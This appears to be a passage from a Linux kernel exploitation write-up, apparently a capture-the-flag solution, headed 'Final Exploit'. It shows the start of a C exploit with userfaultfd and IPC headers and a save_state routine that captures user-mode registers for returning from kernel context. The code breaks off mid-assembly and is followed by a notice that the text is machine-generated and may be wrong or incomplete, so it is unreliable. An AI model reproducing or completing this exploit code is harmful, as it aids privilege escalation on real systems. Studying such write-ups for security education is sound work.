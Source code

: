 

Final Exploit:

```c
// gcc --static exp.c -o exp

#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <signal.h>
#include <unistd.h>
#include <syscall.h>
#include <pthread.h>
#include <poll.h>
#include <linux/userfaultfd.h>
#include <linux/fs.h>
#include <sys/shm.h>
#include <sys/msg.h>
#include <sys/ipc.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

#define PAGE_SIZE 0x1000

struct info
{
  uint64_t idx;
  char *ptr;
};


int dev_fd;
uint64_t user_cs, user_ss, user_eflag, user_rsp;

void save_state()
{
  asm(
    "movq %%cs, %0;"
    "movq %%ss, %1;"
    "movq %%rsp, %3;"
    "pushfq;"
    "pop %2;"
    : "=r"(user_cs), "=r"(user_ss), "=r"(user_eflag), "=r"(user_rsp)
    :
    :
:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::
<!-- AI -->
